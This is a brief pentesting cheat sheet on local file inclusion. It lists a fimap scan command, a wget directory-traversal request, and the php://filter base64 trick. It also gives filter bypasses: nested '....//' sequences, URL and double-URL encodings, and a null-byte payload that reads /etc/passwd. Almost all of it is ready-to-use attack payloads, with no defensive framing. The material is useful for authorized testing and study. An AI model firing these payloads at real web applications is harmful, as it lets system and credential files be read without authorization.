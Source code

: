 +++
title = 'LFI'
+++


```
# https://github.com/kurobeats/fimap
fimap -u "https://example.com?test="
```

## Wget

Sometimes browsers mess around with basic directory traversal sequences, but wget may work:

```
wget http://[host]/page.php?url=../../../../../../../file.html
```

## Tricks

 - PHP Filter b64 (php://filter/zlib.deflate/convert.base64-encode/resource=FILE)
 - Nullbyte ending (%00)
 - 403bypass section may help

## Bypasses

### Nesting traversal sequences

```
....//
....\/
..../\
....\\
```

### URL Encoding

```
dot             %2e
forward slash   %2f
backslash       %5c
```

### Double URL Encoding

```
dot             %252e
forward slash   %252f
backslash       %255c
```

### Null Byte

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator (%00 or 0x00 in hex) will stop processing immediately, so that any bytes following it are ignored.

```
http://website/page=../../../etc/passwd%00
```


